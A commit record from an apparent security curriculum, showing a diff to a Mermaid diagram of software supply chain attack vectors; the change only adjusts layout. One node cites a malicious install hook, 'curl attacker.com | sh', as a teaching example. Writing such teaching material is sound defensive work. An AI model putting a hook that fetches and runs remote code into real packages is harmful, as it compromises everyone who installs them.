

One commit to espoem/zero-to-one changed the first of 3 diagrams in architecture/security-identity/modules/12-supply-chain-and-dependency-security.md. Above: the diagram before and after it, drawn with Mermaid. The commit also changed 171 other files, not shown here.

Commit message:
fix(curriculum): repair LaTeX and KaTeX math blocks, heading uniqueness, and diagram constraints

````diff
--- a/architecture/security-identity/modules/12-supply-chain-and-dependency-security.md
+++ b/architecture/security-identity/modules/12-supply-chain-and-dependency-security.md
@@ -9,10 +9,11 @@
 ```mermaid
 flowchart TD
     subgraph AttackVectors["Software Supply Chain Attack Vectors"]
         Typo["1. Typosquatting<br/>(e.g. 'lodsh' instead of 'lodash')"]
         DepConf["2. Dependency Confusion<br/>(Public npm shadows internal @corp/pkg)"]
         Takeover["3. Account / Maintainer Takeover<br/>(Compromised developer credentials / phishing)"]
         MalScript["4. Malicious Lifecycle Scripts<br/>(postinstall: curl attacker.com | sh)"]
         BuildComp["5. CI/CD Build Pipeline Compromise<br/>(Poisoned GitHub Actions / runner tampering)"]
+        Typo ~~~ DepConf ~~~ Takeover ~~~ MalScript ~~~ BuildComp
     end
 ```
````
